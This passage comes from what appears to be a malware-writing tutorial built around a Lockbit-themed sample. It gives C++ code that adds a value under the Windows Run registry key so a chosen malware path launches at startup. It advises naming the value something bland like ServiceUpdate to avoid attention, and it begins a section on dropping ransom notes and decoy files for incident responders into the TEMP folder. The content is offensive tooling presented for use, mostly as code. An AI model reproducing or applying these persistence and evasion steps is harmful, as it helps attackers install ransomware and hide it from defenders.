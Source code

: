 This API sets the data and type of a specified value under a registry key, `hKey` parameter is handle to an open registry key.

```cpp
const char* valueName = "LockbitSupp~lol";
const char* valueData = "<PATH_TO_YOUR_FILE>";
result = RegSetValueExA(hKey, valueName, 0, REG_SZ, (BYTE*)valueData, strlen(valueData) + 1);
```

> The value name apparently should be a more realistic name, so you don't get any attention, like ServiceUpdate or any other common name.

Change **valueData** with the full path of your malware.

After we finish we need to close the key using:

```cpp
RegCloseKey(hKey);
```

Full code of the function:

```cpp
void RegAct() {
  HKEY hKey;
  const char* subKey = "SOFTWARE\\Microsoft\\CurrentVersion\\Run";
  const char* valueName = "LockbitSupp~lol";
  const char* valueData = "You have been infected with FunnyLockbit!";

  LONG result = RegCreateKeyExA(HKEY_LOCAL_MACHINE, subKey, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL);
  if (result == ERROR_SUCCESS) {
    // Set the value
    result = RegSetValueExA(hKey, valueName, 0, REG_SZ, (BYTE*)valueData, strlen(valueData) + 1);
    if (result == ERROR_SUCCESS) {
      printf("Value added correctly!");
    }
    else {
      printf("\nError %x\n", GetLastError());
    }
    // Close the key
    RegCloseKey(hKey);
  }
  else {
    printf("Failed to open or create registry key. Error code: %x", GetLastError());
  }
};
```

## dropping a file

This is a simple functionality, dropping file can be used when for example dropping ransomware notes, instructions for the victim, any any dummy rabbit holes for incident responders, etc.

We will drop a temporarily file, so we will choose **TEMP** path, we can use `GetTempPathA()` to get the path of TEMP directory.
